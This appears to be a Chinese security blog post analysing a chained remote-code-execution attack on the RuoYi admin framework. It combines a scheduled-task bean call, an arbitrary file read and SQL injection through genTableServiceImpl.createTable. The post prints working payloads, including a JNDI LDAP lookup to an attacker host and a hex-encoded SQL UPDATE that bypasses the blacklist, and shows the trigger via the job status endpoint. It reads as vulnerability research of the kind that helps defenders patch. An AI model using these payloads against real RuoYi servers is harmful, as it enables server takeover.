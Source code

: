 

# 最新 Ruoyi 组合拳 RCE 分析 - 先知社区

最新 Ruoyi 组合拳 RCE 分析

- - -

## 开门见山

最新版 ruoyi rce 的方法依旧是在定时任务处：定时任务中可以调用特定包内的 bean，通过`genTableServiceImpl`直接执行 sql 来更改定时任务内容，从而绕过黑白名单的限制。既然是组合拳 rce，因此就先分析下另外两个漏洞，而 rce 自然而然就出来了

## 定时任务 + 文件读取=任意文件读取

先来简单聊一下若依任意文件读取（CVE-2023-27025），影响版本在 4.7.6 之前  
众所周知，ruoyi 计划任务能调用 bean 或者 class 类，这里就是通过调用`ruoYiConfig.setProfile`，来更改本地上传文件路径  
[![](assets/1709282727-3f0771cac94c5e2d24b3257cb68378b8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229190447-5a3231d8-d6f2-1.png)  
且该 bean 包名能通过黑白名单校验  
[![](assets/1709282727-32dfc14dfd0a4c11b61fa3fc4e492680.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229190458-6072bab8-d6f2-1.png)  
`/common/download/resource`接口能读取文件  
虽然前端对传入文件名`resource`进行过滤，**但本地资源路径通过上文计划任务变为可控**，此时更改`ruoYiConfig.setProfile`的配置文件为任意想要读取的文件即可，也就达到了任意文件读取效果  
[![](assets/1709282727-db245a0216164334029fe9b93974415c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229190515-6ab271b2-d6f2-1.png)

[![](assets/1709282727-c76493e5f39ed9b5260a0d5f28465f8a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229192118-a8855688-d6f4-1.png)

## createTable 处的 Sql 注入

在 ruoyi 4.7.5 版本之前，后台存在 sql 注入  
接口`/tool/gen/createTable`处，定位到代码，其功能为创建数据表。将 sql 语句直接从前端传入，并执行  
[![](assets/1709282727-8234fda03d723ef00487fae824669dc8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229190541-79deef76-d6f2-1.png)  
Mapper 语句：

```plain
<update id="createTable">
      ${sql}
</update>
```

[![](assets/1709282727-bef0e3c0206d8e54c243d966518b8803.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229192427-199acf60-d6f5-1.png)

## 定时任务+SQL 注入=RCE

根据上文的注入可以找到`genTableService`的实现类：`GenTableServiceImpl`，该类同样满足黑白名单条件  
[![](assets/1709282727-9b08020d18aca8a2165127a3aeb084db.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229190611-8c03c474-d6f2-1.png)  
在启动类中我们可以修改代码如下，打印出项目中所有加载的 bean，

```plain
ConfigurableApplicationContext run = SpringApplication.run(RuoYiApplication.class, args);
String[] beanDefinitionNames = run.getBeanDefinitionNames();
for (String beanDefinitionName : beanDefinitionNames) {
    System.out.println(beanDefinitionName);
}
```

[![](assets/1709282727-dfbadb2b980b5c4d136e8e7ed6280750.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229190647-a1b4a676-d6f2-1.png)  
于是我们可以调用`genTableServiceImpl.createTable`实现 sql 语句执行  
ruoyi 黑白名单校验仅出现在`com.ruoyi.quartz.controller.SysJobController#addSave`，而任务状态修改接口中并没有添加

[![](assets/1709282727-e1846444e88465c796e9ad3d3de0c18a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229190736-be901528-d6f2-1.png)  
如果我们配合上文的注入在`sys_job`数据表中直接插入恶意计划任务，即可不调用`addSave`方法添加计划任务内容，成功绕过黑白名单限制  
数据库中计划任务表结构如下

[![](assets/1709282727-6cb8cdab6ffc1e294a39aa1beac4a2ba.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229190808-d1c88ff8-d6f2-1.png)  
这里选择图个方便，直接使用 update 来修改 invoke\_target 为 Jndi payload：

```plain
javax.naming.InitialContext.lookup('ldap://192.168.44.84:1389/Deserialization/URLDNS/ekwzmxtyim.dgrh3.cn')
```

updata 执行语句为

```plain
genTableServiceImpl.createTable("UPDATE sys_job SET invoke_target = \"javax.naming.InitialContext.lookup('ldap://192.168.44.84:1389/Deserialization/URLDNS/ekwzmxtyim.dgrh3.cn')\" WHERE job_id = 3;")
```

但会触发黑名单

[![](assets/1709282727-c9d4e26ecb59a4b09f991e7d28838aa6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229191218-66cdfb92-d6f3-1.png)  
既然是执行 sql 语句，直接将 value 转为 16 进制即可

```plain
genTableServiceImpl.createTable('UPDATE sys_job SET invoke_target = 0x6a617661782e6e616d696e672e496e697469616c436f6e746578742e6c6f6f6b757028276c6461703a2f2f3139322e3136382e34342e38343a313338392f446573657269616c697a6174696f6e2f55524c444e532f656b777a6d787479696d2e64677268332e636e2729 WHERE job_id = 3;')
```

此时是能成功执行`org.quartz.Scheduler#scheduleJob`来调度任务的

[![](assets/1709282727-068e6cdf1fc698e6da34e5dfc2a33507.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229191249-79768e1c-d6f3-1.png)  
成功更新 sys\_job 数据

[![](assets/1709282727-5cc14b362d371655d8c8146ffdcb4f60.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229191300-7ff89546-d6f3-1.png)

### 漏洞复现

启动 jndi 利用工具：

[![](assets/1709282727-f82f449d10ecd67b716cb98efffe3c94.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229191310-85be9a7a-d6f3-1.png)  
添加任务：修改 id 为 3 的计划任务为 jndi payload，并执行

```plain
genTableServiceImpl.createTable('UPDATE sys_job SET invoke_target = 0x6a617661782e6e616d696e672e496e697469616c436f6e746578742e6c6f6f6b757028276c6461703a2f2f3139322e3136382e34342e38343a313338392f446573657269616c697a6174696f6e2f55524c444e532f656b777a6d787479696d2e64677268332e636e2729 WHERE job_id = 3;')
```

[![](assets/1709282727-8fe1d25d5c8a386401c785b92a6a3bac.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229191326-8f809360-d6f3-1.png)  
此时任务 3 的调用字符串已经是 Jndi payload 了，后面直接通过`/monitor/job/changeStatus`接口直接更改任务状态触发 Jndi

[![](assets/1709282727-29ffa3c59cd29a96e0c3e326d13c9a98.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229191343-995fcc48-d6f3-1.png)

[![](assets/1709282727-174648a5824bc7d438f6f853d1940ae9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229191346-9b73ad9c-d6f3-1.png)  
此外根据 ruoyi 默认依赖，还可以使用[jndi-plus](https://github.com/cckuailong/JNDI-Injection-Exploit-Plus/blob/master/README_zh.md "jndi-plus")的 jackson 反序列化来实现 rce

[![](assets/1709282727-c289e6ac73bc58204fc1664691cb5935.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229191441-bbc85822-d6f3-1.png)

[![](assets/1709282727-d1dff8e87e04f309df5a76621aea59d3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229191450-c15017ee-d6f3-1.png)

## 参考文章

[https://github.com/cckuailong/JNDI-Injection-Exploit-Plus/blob/master/README\_zh.md](https://github.com/cckuailong/JNDI-Injection-Exploit-Plus/blob/master/README_zh.md)  
[https://github.com/luelueking/RuoYi-v4.7.8-RCE-POC](https://github.com/luelueking/RuoYi-v4.7.8-RCE-POC)
